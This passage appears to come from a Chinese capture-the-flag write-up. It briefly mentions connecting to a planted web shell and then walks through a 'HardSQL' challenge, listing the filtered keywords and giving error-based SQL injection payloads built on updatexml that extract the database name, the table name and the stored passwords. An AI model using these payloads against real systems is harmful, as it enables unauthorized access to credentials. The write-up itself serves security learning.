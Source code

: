 使用蚁剑，菜刀连接，找到flag

![](../pic/58.png)

### HardSQL

fuzz测试

`AND,BINARY,BY,CHAR,CHAR_LENGTH,CHARACTER,CHARACTER_LENGTH,CLASSIFIER,DROP,HAVING,INSERT,INTO,MODIFIES,NCHAR,NULLIF,SPECIFIC,SPECIFICTYPE,SUBSTRING,SUBSTRING_REGEX,UNION,VARBINARY,VARCHAR,+,/,!,*,||,&&,<,>,ascii,%20,%09`被过滤

输入错误还会报出sql语句错误，考虑报错注入

1. #### 查数据库

   `?username=admin'or(updatexml(0,concat(0,(select(database())),0))%23`还是geek

2. #### 查表

   `?username=admin'or(updatexml(0,concat(0,(select(concat(table_name))from(information_schema.tables)where(table_schema)like('geek'))),0))%23`

   H4rDsq1

3. #### 查列名（应该还是只有id,usname,password）

4. #### 查数据

   `?username=admin'or(updatexml(0,concat(0,(select(concat(password))from(H4rDsq1))),0))%23&password=123`

   `?username=admin'or(updatexml(0,concat(0,(select(reverse(password))from(H4rDsq1))),0))%23&password=123`
   